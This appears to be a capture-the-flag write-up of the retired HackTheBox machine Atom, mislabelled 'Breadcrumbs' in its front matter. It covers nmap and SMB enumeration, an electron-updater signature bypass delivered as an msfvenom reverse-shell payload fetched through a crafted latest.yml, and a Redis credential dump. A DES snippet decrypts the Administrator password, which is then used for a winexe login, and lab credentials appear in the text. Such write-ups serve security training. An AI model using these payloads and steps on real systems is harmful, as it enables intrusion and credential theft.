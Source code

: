 ```yaml
---
title: HackTheBox - Breadcrumbs Writeup
subtitle: Here's my writeup for the RETIRED machine Atom, Which is a Medium Windows machine!
summary: Here's my writeup for the RETIRED machine Atom, Which is a Medium Windows machine!
date: '2021-07-17'
draft: false
authors: ['elleuch']
categories: ['HackTheBox', 'Hard']
tags: ['HackThebox', 'Medium','Windows']
image: /assets/img/htb-breadcrumbs/featured.jpg
render_with_liquid: false
---
```


# Information Gathering

---

## Nmap scan
```
sudo nmap -sC -sV 10.10.10.237 -v
```

```
80/tcp  open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
135/tcp open  msrpc        Microsoft Windows RPC
443/tcp open  ssl/http     Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
|_SHA-1: b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)

```

## Web Enumeration

<img src="/assets/img/htb-atom/web.png">

It's a static page with an executeable to download, but nothing interesting! Let's keep enumerating

## <p style="color:Green">SMB Enumeration </p> 

<img src="/assets/img/htb-atom/smb.png">

An interesting share `Software_Updates` let's take a look at it

<img src="/assets/img/htb-atom/foothold.png">

Let's try download everything

```
prompt off
recurse on
mget *
```

<img src="/assets/img/htb-atom/smbfiles.png">
We only have a pdf file!

---

# Foothold 

---

Let's take a look at the pdf file

<img src="/assets/img/htb-atom/electron.png">
<img src="/assets/img/htb-atom/electron1.png">

The Heedv1 app is build with `electron-builder` and also we can drop updates in the client folders in the smb and it get executed.
Searching in  google for an electron builder update rce, we can find an interesting

> https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html

Let's first create our shell with the name "s'hell.exe" to bypass the signature

```
msfvenom -p windows/shell_reverse_tcp  lhost=10.10.14.5 lport=9001 -f exe -o "s'hell.exe"
```

And also generate the encdoded shasum of our malicious file

```
shasum -a 512 s\'hell.exe | cut -d " " -f1 | xxd -r -p | base64
``` 

Now we're ready to create our `latest.yml`

```yml
version: 1.2.3

path: http:/IP:PORT/s'hell.exe
sha512: CZsOB2[-SNIP-]2tW5UhzwqzLVkkpzAbuIw==
```

Let's setup a listener and upload them to the clients folder in the smb! And wait until we get a shell back


<img src="/assets/img/htb-atom/foothold.png">

We're on the box now! And we can get the user flag !:D

<img src="/assets/img/htb-atom/user.png">


---

# PrivEsc

---

Before running any enumerating tool, i always check the Program file, the documents and Downloads folders to check if we have any custom Software  (a aka free win) installed in the system!

<img src="/assets/img/htb-atom/portable.png">

We  can copy the whole folder and try to retrieve the encrypted like the machine `sharp` but let's keep enumerating!
> https://www.exploit-db.com/exploits/49409


<img src="/assets/img/htb-atom/redis.png">

We can see that Redis is installed, we can grab the redis password from the config file

<img src="/assets/img/htb-atom/pass.png">

```
requirepass kidvscat_yes_kidvscat
```
Now we can enumerate the redis service!

We will use the redis-tools package

```
sudo apt-get install redis-tools
```

> A very good ressource, i'll use everything from here https://book.hacktricks.xyz/pentesting/6379-pentesting-redis

Let's dump the database
```redis
info
```
<img src="/assets/img/htb-atom/rd.png">

Let's list the keys from the db0


<img src="/assets/img/htb-atom/rd1.png">

Let's check their content
<img src="/assets/img/htb-atom/PS.png">


The key `pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0` seems to give us credentials 

```
Administrator:Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi
```
Seems like it's an encrypted password! And we already know that we have an exploit to decrypt it ! Lets give it a try


Let's just take a snippet from the exploit-db exploit 
```python
#!/usr/bin/env python3
import base64
from des import *
def decode(hash):
	hash = base64.b64decode(hash.encode('utf-8'))
	key = DesKey(b"7ly6UznJ")
	return key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8')

print('[+] Decrypted Password: '+decode('Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi'))
```

<img src="/assets/img/htb-atom/adminpass.png">

```
Administrator:kidvscat_admin_@123
```
Now let's login as administrator to the machine

```
winexe -U 'Administrator%kidvscat_admin_@123' //10.10.10.237 cmd.exe
```



<img src="/assets/img/htb-atom/toor.png">

And we rooted the machine!
